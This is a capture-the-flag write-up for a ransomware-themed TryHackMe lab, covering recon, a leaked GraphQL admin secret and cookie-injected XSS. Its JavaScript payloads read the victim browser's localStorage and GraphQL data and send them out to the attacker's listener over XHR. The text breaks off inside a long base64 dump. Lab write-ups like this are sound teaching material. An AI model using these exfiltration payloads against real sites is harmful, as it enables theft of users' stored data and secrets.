






_**Sept 25, 2020**_

<h2 id="Overview">Overview</h2>

Technical writeup, explaining my approach solving [Carpe Diem](https://tryhackme.com/room/carpediem1) machine from [TryHackMe](https://tryhackme.com), Created by [4ndr34zz](https://twitter.com/4nqr34z), where i'll be explaining : 
1. XSS data ex-filtration with XMLHttpRequest()
2. GraphQL Enumeration and Dumping
3. Cracking a KeePass Master Password

<br>

<h2 id="Target-Informations">Target Informations</h2>

```
- IP ADDRESS  : 10.10.172.124
- Dificulty   : Hard - Insane
- Description : Recover your clients encrypted files before the ransomware timer runs out!
```

<br>

<h2 id="Discovery-reconnaissance">Discovery & reconnaissance</h2>

A network reconnaissance against our target on the provided IP addresses to determine open ports was conducted.

**Nmap Scan**

```
m3dsec@local:~/carpe_diem.thm$ nmap -v -sC -sV -oN nmap/nmap_tcp_simple 10.10.172.124
PORT     STATE    SERVICE VERSION
80/tcp   open     http    nginx 1.6.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.6.2
|_http-title: Home
111/tcp  open     rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34548/udp   status
|   100024  1          47805/tcp6  status
|   100024  1          52101/udp6  status
|_  100024  1          55962/tcp   status
# Nmap done at Thu Sep 24 14:52:20 2020 -- 1 IP address (1 host up) scanned in 35.64 seconds
```

as we step further, i did enumerated port 111, nothing special, but port 80 seems interesting.


<br>

<h2 id="Port-80">Webserver Enumeration </h2>

Browsing to the IP address, we see that the client has been hacked by the Carpe Diem cyber gang, the index page was defaced, informing the client to pay or the unlock key will be deleted.




Inspecting the source code, we see some javascript snippets, the most interesting one is the one with `aaa()` function:

```javascript
<script >
    function aaa(wallet) {
        var wallet = wallet;
        if (wallet.trim() === 'bc1q989cy4zp8x9xpxgwpznsxx44u0cxhyjjyp78hj') {
            alert('Hey! \n\nstupid is as stupid does...');
            return;
        }

        var re = new RegExp("^([a-z0-9]{42,42})$");
        if (re.test(wallet.trim())) {
            var http = new XMLHttpRequest();
            var url = 'http://c4rp3d13m.net/proof/';
            http.open('POST', url, true);
            http.setRequestHeader('Content-type', 'application/json');
            var d = '{"size":42,"proof":"' + wallet + '"}';
            http.onreadystatechange = function() {
                if (http.readyState == 4 && http.status == 200) { //alert(http.responseText);
                }
            }
            http.send(d);
        } else {
            alert('Invalid wallet!');
        }
    } 
</script>
```

<br>

what it does is:

* start a new function, that take wallet as an argument.
```js
function aaa(wallet) {
```

* make sure wallet is not the same as the Carpe Diem cyber gang BTC wallet value.
```js
if (wallet.trim() === 'bc1q989cy4zp8x9xpxgwpznsxx44u0cxhyjjyp78hj') {
            alert('Hey! \n\nstupid is as stupid does...');
```

* then it make sure it's a 42 string length, contain only digits and letters.
```js
var re = new RegExp("^([a-z0-9]{42,42})$");
        if (re.test(wallet.trim())) {
```

* Initiate a new POST request with [XHR](https://en.wikipedia.org/wiki/XMLHttpRequest) help of course
```js
var http = new XMLHttpRequest();
var url = 'http://c4rp3d13m.net/proof/';
http.open('POST', url, true);
http.setRequestHeader('Content-type', 'application/json');
var d = '{"size":42,"proof":"' + wallet + '"}';
```

* if everything goes as expected, and the operation is complete, we do nothing :joy:
```js
http.onreadystatechange = function() {
    if (http.readyState == 4 && http.status == 200) {//alert(http.responseText);
    }
}
```

<br>

here i had to link `c4rp3d13m.net` domain name with our clients IP Adress, to escalate some cross-origin resource sharing problem (CORS is not our friend here !).

```
m3dsec@local:~/carpe_diem.thm$ echo '10.10.172.124 c4rp3d13m.net' > /etc/hosts
m3dsec@local:~/carpe_diem.thm$ tail -n 1 /etc/hosts;echo
10.10.172.124   c4rp3d13m.net
```

Further enumeration like Directory BruteForcing, reveal other folders.
```
m3dsec@local:~/carpe_diem.thm$ ffuf -c -u http://10.10.172.124/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 
images                  [Status: 301, Size: 179, Words: 7, Lines: 11]
downloads               [Status: 301, Size: 185, Words: 7, Lines: 11]
javascripts             [Status: 301, Size: 189, Words: 7, Lines: 11]
stylesheets             [Status: 301, Size: 189, Words: 7, Lines: 11]
Downloads               [Status: 200, Size: 483, Words: 18, Lines: 1]
DOWNLOADS               [Status: 200, Size: 483, Words: 18, Lines: 1]
downLoads               [Status: 200, Size: 483, Words: 18, Lines: 1]
```

 

Within `http://c4rp3d13m.net/Download/` folder, i downloaded the decryption binary, for a static overview analysis.

As the room description says **(The downloads-section is not a part of the challenge)**.

```
m3dsec@local:~/carpe_diem.thm/files$ wget http://c4rp3d13m.net/downloads/decrypt_linux_amd64 -O decrypt_linux_amd64;ls -lat decrypt_linux_amd64
--2020-09-25 20:09:41--  http://c4rp3d13m.net/downloads/decrypt_linux_amd64
Connecting to c4rp3d13m.net:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2258479 (2.2M) [application/octet-stream]
Saving to: ‘decrypt_linux_amd64’

decrypt_linux_amd64                        100%[=====================================================================================>]   2.15M  36.0KB/s    in 48s     

2020-09-25 20:10:30 (45.6 KB/s) - ‘decrypt_linux_amd64’ saved [2258479/2258479]

-rw-r--r-- 1 m3dsec m3dsec 2258479 Sep 25  2020 decrypt_linux_amd64
```

Running the executable binary file, doesn't reveal anything, and no suspicious library or system call where made.

```
m3dsec@local:~/carpe_diem.thm/files$ ./decrypt_linux_amd64 
m3dsec@local:~/carpe_diem.thm/files$ ltrace ./decrypt_linux_amd64 
Couldn't find .dynsym or .dynstr in "/proc/75621/exe"
m3dsec@local:~/carpe_diem.thm/files$ strace ./decrypt_linux_amd64 
execve("./decrypt_linux_amd64", ["./decrypt_linux_amd64"], 0x7fff649f9070 /* 44 vars */) = 0
arch_prctl(ARCH_SET_FS, 0x58a930)       = 0
sched_getaffinity(0, 8192, [0, 1, 2, 3]) = 64
openat(AT_FDCWD, "/sys/kernel/mm/transparent_hugepage/hpage_pmd_size", O_RDONLY) = 3
read(3, "2097152\n", 20)                = 8
close(3)                                = 0
...
readlinkat(AT_FDCWD, "/proc/self/exe", "/home/m3dsec/carpe_diem.thm/file"..., 128) = 53
futex(0x58a2f0, FUTEX_WAKE_PRIVATE, 1)  = 0
futex(0x58a1f0, FUTEX_WAKE_PRIVATE, 1)  = 1
fcntl(0, F_GETFL)                       = 0x402 (flags O_RDWR|O_APPEND)
futex(0xc000058148, FUTEX_WAKE_PRIVATE, 1) = 1
mmap(NULL, 262144, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7ffa10abb000
fcntl(1, F_GETFL)                       = 0x402 (flags O_RDWR|O_APPEND)
fcntl(2, F_GETFL)                       = 0x402 (flags O_RDWR|O_APPEND)
exit_group(0)                           = ?
+++ exited with 0 +++
```

After reverse engeneering the binary file, we concluded that its taking 3 arguments + the exec file itself , other than that it just exit `os_Exit()`.

```c
void main_main(void)

{
  ulong *puVar1;
  long in_FS_OFFSET;
  
  puVar1 = (ulong *)(*(long *)(in_FS_OFFSET + 0xfffffff8) + 0x10);
  if (register0x00000020 < (undefined *)*puVar1 ||
      (undefined *)register0x00000020 == (undefined *)*puVar1) {
    runtime_morestack_noctxt();
    main_main();
    return;
  }
  if (os_Args._8_8_ != 4) {
    os_Exit();
  }
  if (os_Args._8_8_ < 2) {
                    /* WARNING: Subroutine does not return */
    runtime_panicIndex();
  }
  if (os_Args._8_8_ < 3) {
                    /* WARNING: Subroutine does not return */
    runtime_panicIndex();
  }
  if (3 < os_Args._8_8_) {
    main_decryptFile();
    return;
  }
                    /* WARNING: Subroutine does not return */
  runtime_panicIndex();
}
```

We need to discover those 4 arguments.


<br>

<h2 id="Flag-01">Flag 01 : Parameter Tampering, Cookies injection.</h2>

**Playing with Parameters, size information overflow.**

From our previous code analysis, i constructed a curl command :

i first tried to POST the same BTC wallet string.
```
m3dsec@local:~/carpe_diem.thm$ curl -X POST 'http://c4rp3d13m.net/proof/' -H 'Content-type: application/json' -d '{"size":42,"proof":"bc1q989cy4zp8x9xpxgwpznsxx44u0cxhyjjyp78hj"}';echo
Really?...
```

Manipulating the size parameter to something bigger than 42, leak critical informations, like :
1. Internal ip adress
2. The fact that there is a GraphQL API
3. The Admin authentication secret pass for GraphQL API

```
m3dsec@local:~/carpe_diem.thm$ curl -s -X POST 'http://c4rp3d13m.net/proof/' -H 'Content-type: application/json' -d '{"size":1024,"proof":"'+wallet+'"}' --output output.bin
m3dsec@local:~/carpe_diem.thm$ strings output.bin
+wallet+
...
Urequest.post({ headers: {'content-type' : 'application/json','x-hasura-admin-secret' : 's3cr3754uc35432' error connecting to http://192.168.150.10/v1/graphql/
```

<br>

**Playing with cookies, Javascript injection**

Decoding the cookie value, `MTAuOS4xMjMuMjI2 -> 10.9.123.226` give us our ip adress, it was a big hint that the cookies are inejctable.

First wa tried to inject a regular XSS payload to fetch our js file remotely, and exfiltrate the result with an XHR request, as we dont have a reflected XSS.

```
m3dsec@local:~/carpe_diem.thm$ echo "<script src='http://10.9.123.226:8000/x.js'></script>"|base64 -w 0;echo
PHNjcmlwdCBzcmM9J2h0dHA6Ly8xMC45LjEyMy4yMjY6ODAwMC94LmpzJz48L3NjcmlwdD4K
```

The x.js file contain a simple XHR snippet

```js
var = r = new XMLHttpRequest();
r = open("GET", "http://10.9.123.226/?=FETCHED_SECCUFULLY",true);
r.send();
```

Once reloading the page we get a hit

```
m3dsec@local:~/carpe_diem.thm/bin$ sudo python3 -m http.server 80                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                
10.10.172.124 - - [25/Sep/2020 12:31:19] "GET /x.js HTTP/1.1" 200 -                     
10.10.172.124 - - [25/Sep/2020 12:31:19] "GET /x.js HTTP/1.1" 200 -                     
___________________________________________________________________________________________________________________
                                                                                        
m3dsec@local:~/carpe_diem.thm/bin$ sudo python3 -m http.server 8000                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                
10.10.172.124 - - [25/Sep/2020 12:31:30] "GET /?=FETCHED_SECCUFULLY HTTP/1.1" 200 - 
```


Next i start enumerating for local files in our client Host.

```js
var r = new XMLHttpRequest();

s = localStorage
for (i in s){
	r = open("GET","http://10.9.123.226/?" + i,true);
	r.send();
}
```

i then got the flag file name.

```
m3dsec@local:~/carpe_diem.thm/bin$ sudo python3 -m http.server 8000                     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...                                
10.10.172.124 - - [25/Sep/2020 12:41:20] "GET /?%7B%22flag1%22 HTTP/1.1" 200 - 

```

Next i converted the flag1 object into a readable strign with this nice function from stack, alternatively you can use `JSON.stringify`, it will return the object in a json format.

```js
// objToString() method from stack :)
// https://stackoverflow.com/questions/5612787/converting-an-object-to-a-string
var r = new XMLHttpRequest();

function objToString(obj){
    var str = '';
    for (var p in obj) {
        if (obj.hasOwnProperty(p)) {
            str += p + '::' + obj[p] + '\n';
        }
    }
    return str;
}
s = objToString(localStorage)
r.open("GET","http://10.9.123.226/?"+s);
r.send();
```

As a result we retrived our 1st flag.
```
m3dsec@local:~/carpe_diem.thm/bin$ sudo python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.172.124 - - [25/Sep/2020 12:50:23] "GET /?%7B%22secret%22:%22s3cr3754uc35432%22,%22flag1%22:%22THM%7BSo_Far***********_What%7D%22%7D HTTP/1.1" 200 - 
```


<br>

<h2 id="Flag-02">Flag 02 : GraphQL Enumeration, KeePass database cracking</h2>

**GraphQL enumeration**

Moving forward, our next step was to [enumerate the GraphQL API using XHR](https://stackoverflow.com/questions/57721150/how-to-fetch-from-graphql-server-using-xmlhttprequest).

A Nice set of query payloads where given on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo, i used the [Introspection query](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)  to dump the database schema.

For XHR data Exfiltration i couldn't find a better approach than [4ndr34zz's](https://twitter.com/4nqr34z), by encoding the data to base64 with [atob](https://www.w3schools.com/jsref/met_win_atob.asp) method, for a better results.


<br>

**Enumerate Database Schema via Introspection**

our `x.js` payload now contain this snippet:

```js
var xhr = new XMLHttpRequest();
var q = '{"query": "fragment FullType on __Type {  kind  name  description  fields(includeDeprecated: true) {    name    description    args {      ...InputValue    }    type {      ...TypeRef    }    isDeprecated    deprecationReason  }  inputFields {    ...InputValue  }  interfaces {    ...TypeRef  }  enumValues(includeDeprecated: true) {    name    description    isDeprecated    deprecationReason  }  possibleTypes {    ...TypeRef  }}fragment InputValue on __InputValue {  name  description  type {    ...TypeRef  }  defaultValue}fragment TypeRef on __Type {  kind  name  ofType {    kind    name    ofType {      kind      name      ofType {        kind        name        ofType {          kind          name          ofType {            kind            name            ofType {              kind              name              ofType {                kind                name              }            }          }        }      }    }  }}query IntrospectionQuery {  __schema {    queryType {      name    }    mutationType {      name    }    types {      ...FullType    }    directives {      name      description      locations      args {        ...InputValue      }    }  }}"}';
// for some reason, we dont need json content type here.
// xhr.setRequestHeader('Content-Type', 'application/json');
xhr.open("POST", "http://192.168.150.10:8080/v1/graphql/", true);
xhr.setRequestHeader('x-hasura-admin-secret','s3cr3754uc35432');

xhr.onreadystatechange=function() {
    // if the request finished and response is ready (state 4)
    if (this.readyState === 4) {
        var r = new XMLHttpRequest();
        r.open('GET','http://10.9.123.226/?data='+btoa(this.responseText),false);
        r.send();
    }
}

xhr.send(q);
```

I then decoded the exfiltrated data, pass it to [Graphql voyager](https://apis.guru/graphql-voyager/), so we can visually explore our GraphQL API in an interactive graph






Victims node sounds interesting :eyes:.




Quering the **Victims** node:

```js
var xhr = new XMLHttpRequest();
var q = '{"query":"{\n victims {\n filename\n id\nkey\n name\n timer\n }\n}"}';

xhr.open("POST", "http://192.168.150.10:8080/v1/graphql/", true);
// for some reason, we dont need json content type here.
// xhr.setRequestHeader('Content-Type', 'application/json');
xhr.setRequestHeader('x-hasura-admin-secret','s3cr3754uc35432');

xhr.onreadystatechange=function() {
    // if the request finished and response is ready (state 4)
    if (this.readyState === 4) {
        var r = new XMLHttpRequest();
        r.open('GET','http://10.9.123.226/?data='+btoa(this.responseText),false);
        r.send();
    }
}
xhr.send(q);
```

```
m3dsec@local:~/carpe_diem.thm$ sudo python3 -m http.server 80
[sudo] password for m3dsec: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.172.124 - - [25/Sep/2020 13:41:24] "GET /?data= HTTP/1.1" 200 -
10.10.172.124 - - [25/Sep/2020 13:41:24] "GET /?data=eyJkYXRhIjp7InZpY3RpbXMiOlt7ImZpbGVuYW1lIjoibWlyZWRvLmNvbmYiLCJpZCI6NjksImtleSI6IlJXMUVkM1pOVjA5YWVXRmpPVGR4TTFCME9GUXpUa05GWTBKRGJETktlbkExYTFGZlZGQmZXWFo2WlZONU1uQXVUa3BKVjFOVWFuUnNaMGxXUVZaV1VnPT0iLCJuYW1lIjoiMTkyLjE2OC42Ni4xMiIsInRpbWVyIjoiMjAyMC0wNC0xNVQyMDo1NjoxMy4yMDMzMDMifSwgeyJmaWxlbmFtZSI6ImZ1c2UuY29uZiIsImlkIjo3MSwia2V5IjoiT0hwaFdpNTBVbXQ1U0VWQk5HaFllbWx4TTNoek9GWkNXVE4zWXpGaldGVlZNa1EyWjNkME5FY3hSRko2Y0dKV2JHWllZM0ZTTVVwTFJFcEVZWFJyZHc9PSIsIm5hbWUiOiIxOTIuMTY4LjY2LjIwMCIsInRpbWVyIjoiMjAyMC0wNC0xNVQyMDo1NzowMC4zOTg5NDUifSwgeyJmaWxlbmFtZSI6IlBob3Rvcy56aXAiLCJpZCI6NDksImtleSI6IjIyaUFnYUM2WjhCVDQrWWhpQ0JXdU9MWFd1YytKS21LZjZYWnludUNmVEtEN2tYdXo5L21IZURFOFZ2bGs0RHR1MGtTTUh4blEzVmFVRDcyR3pHNFVBPT0iLCJuYW1lIjoiNzcuMTU0LjI1MC41NCIsInRpbWVyIjoiMjAyMC0wMy0xOVQxMToyOTo0OC41MjM3NTMifSwgeyJmaWxlbmFtZSI6IlRyYW5zZmVycy5jc3YiLCJpZCI6NDIsImtleSI6Inc2OEM3UHJSNEhrQ0xXWXBiSDV0VVBoNFVoM29nOTFRVXR6V0QyU21uSmVOR0lEWlo3TGJlc3A2QWE5Y3gzNnZxc0lDbmZDWVQwSDZGZjZTbU9hSTZRPT0iLCJuYW1lIjoiMTkyLjE2OC42Ni4xMzQiLCJ0aW1lciI6IjIwMTktMDQtMDlUMTA6NTA6MzcuNTg1NjU1In0sIHsiZmlsZW5hbWUiOiJCVEMtV2FsbGV0LnRhciIsImlkIjo1MCwia2V5IjoiMUFjWHliaGVoNTU3OURsUW1jUXE0QXdsdjFRczZ1Wlh6TStrZTNwbzZ6Z3o2QzI5NGlUNllKZ016OW43bXlkMlZmNkt4Uyt5dVp6aVBjSUNMWGU3NWc9PSIsIm5hbWUiOiI0NS4zNS4yNS40IiwidGltZXIiOiIyMDIwLTA0LTEyVDE0OjMwOjE4Ljc2NjkyNiJ9LCB7ImZpbGVuYW1lIjoiYXJjaGl2ZS56aXAiLCJpZCI6NDMsImtleSI6Ik10d0M1M1BzTWFEMFRrUnlDci92WWhCeEVIcVhpY3Q3TVVvWVVTdXg5SjAzNmlmU2dYdHFQZFZtQUlkcW03RUVjb3Y2Y2ppY3FoT29tMndvS0trVWRRPT0iLCJuYW1lIjoiMjYuMzQuMTMyLjEiLCJ0aW1lciI6IjIwMTktMDEtMTFUMTA6NTA6MzcuNjE3MTg3In0sIHsiZmlsZW5hbWUiOiJCb29rcy54bHMiLCJpZCI6NDUsImtleSI6InB1a2VMMmxsYm9RTFBLbEc3MXlFR1VGaVYxYm1YQnY2ZmFkcmhJanlEUk02YlpqckZZWHRGUDh1TjEzaERxNmlFRG9uZUg4Vy8vWElIdzQvTC9uYzZRPT0iLCJuYW1lIjoiMTkyLjE2OC4xNTAuMSIsInRpbWVyIjoiMjAyMC0wNC0xNFQxMDo1NjozNS42Njk5MjcifSwgeyJmaWxlbmFtZSI6IkRhdGFiYXNlLmtieGQiLCJpZCI6NDgsImtleSI6IkYrbFJHNkFzMmUxcUJkMy83ZFBUdmNtY2x1VUVqTXdrcTIySzZ6QkljUDhaRjFMdUpMc2FyVUtnbWh3K1A4b1p2QlNKVVhHaUdWY1J1SHhiblFZOFRnPT0iLCJuYW1lIjoiMTk1LjIwNC4xNzguODQiLCJ0aW1lciI6IjIwMjAtMDQtMTVUMTQ6Mjk6MjQuMzgzMTM2In0sIHsiZmlsZW5hbWUiOiJwcm90b2NvbHMudHh0IiwiaWQiOjY2LCJrZXkiOiJiazB1ZERGaWJYRXphRFowUWpaS1NHTlhOVmxEWkVKRWJHSlNaMHRvUmtkaVNreHFTbHBSZEVSNFIyNXdVQzV5VWtsWmF6Sk1VaTVoTG0xakxrcDZkZz09IiwibmFtZSI6IjE5Mi4xNjguMTQuNDUiLCJ0aW1lciI6IjIwMjAtMDQtMTVUMjA6NTI6NDUuNTUzMTA3In0sIHsiZmlsZW5hbWUiOiJtYWlsY2FwLm9yZGVyIiwiaWQiOjY3LCJrZXkiOiJWRXhZY0hSR1RtcEJjMHBvUkVjd1UzRjVZbU55UzBWTGJsUXVOa3BCVDFsYVFXVkxkMlZ3Ym0xM1dteDZjbnB4U1VOU2RHTTJTbGQyUm1ab1JtOVpkZz09IiwibmFtZSI6IjE5Mi4xNjguMTYuODciLCJ0aW1lciI6IjIwMjAtMDQtMTVUMjA6NTU6MDMuNzEyNjA3In0sIHsiZmlsZW5hbWUiOiJkZWJjb25mLmNvbmYiLCJpZCI6NjgsImtleSI6IlpFNXFWSGhvTjBaYWRpNWtSMWhqT0hORk5GTkZZbkY2Vmw5RFpHOXdZbWxpWW1RNE1XMXJkMVJmUlVSdmRGaGhaM3BVVWxoSGMydE5ha2xSUlZaR01BPT0iLCJuYW1lIjoiMTk1LjIwNC4xNjcuMTAiLCJ0aW1lciI6IjIwMjAtMDQtMTVUMjA6NTU6NTAuMTUyNzUxIn0sIHsiZmlsZW5hbWUiOiJ3Z2V0cmMiLCJpZCI6NzUsImtleSI6Ik5VSkZaMFZYY2pCSFNVaHNiVmh4TUZaWkxtcEZXRlJDZG14Rk1IcDFOa05tY21SWmVEZFhkVXM0VVhCaFkxUnlVR0pUVkRSRFEyVmxiRGhsV1dkek5BPT0iLCJuYW1lIjoiMTkyLjE2OC4xNi42NSIsInRpbWVyIjoiMjAyMC0wNC0xNlQwNjo0MzoyNy41MzYwMjcifSwgeyJmaWxlbmFtZSI6InNtYXJ0ZC5jb25mIiwiaWQiOjgzLCJrZXkiOiJiMU4yT0U0NWNUUmZSMjV1UWpaSlJFcDBiVFo2YzBGSVdEUnZaSFZ2Ymk0d1QyTnFlakp2TjBocE5XZG9kMFJyYjJ0RU1rcHlWVE5OY2xCTFRtOXliUT09IiwibmFtZSI6IjE5Mi4xNjguMTYuNTMiLCJ0aW1lciI6IjIwMjAtMDQtMTZUMTI6NDQ6MzguNjM5NTkzIn0sIHsiZmlsZW5hbWUiOiJyZXBvcnRidWcuY29uZiIsImlkIjo4NSwia2V5IjoiYkZOQmIxQkJXR1Y2UlRSZlNXVm5RVlZCYWtodE9EWnlhMWM0TVdkaVFqRm9VRWxzVjBVeVNIZFpaVTEzY0VWSU9WTmxaRWxVYWxablZFOTZNMnd3WXc9PSIsIm5hbWUiOiIxOTIuMTY4LjIyNS4xIiwidGltZXIiOiIyMDIwLTA0LTE3VDE0OjQ5OjEzLjAzMTU4OSJ9LCB7ImZpbGVuYW1lIjoidmVnYW5fc2VjcmV0cy50eHQiLCJpZCI6NzQsImtleSI6IlNGRmFVMHBDVFhkVWNESllXbFpRUjI5b1kyWlJia3d6V2s1SmVUUktaWFE0TVd4QlRuRTJla3BEVlY5UE0zYzJTRFpHZUhkSFJIWlVTRWRhV1RGaVJRPT0iLCJuYW1lIjoiMTkyLjE2OC42Ni4xIiwidGltZXIiOiIyMDIwLTA0LTE1VDIwOjU4OjA4LjgzMzM4MyJ9LCB7ImZpbGVuYW1lIjoibW9kdWxlcy5kb2MiLCJpZCI6NzAsImtleSI6Ilp6SnJTVTEyUm1kTlQxWlNRakF4WW14MGRXTkdlSEZYTlZGMlJXOXRNRXQ0UT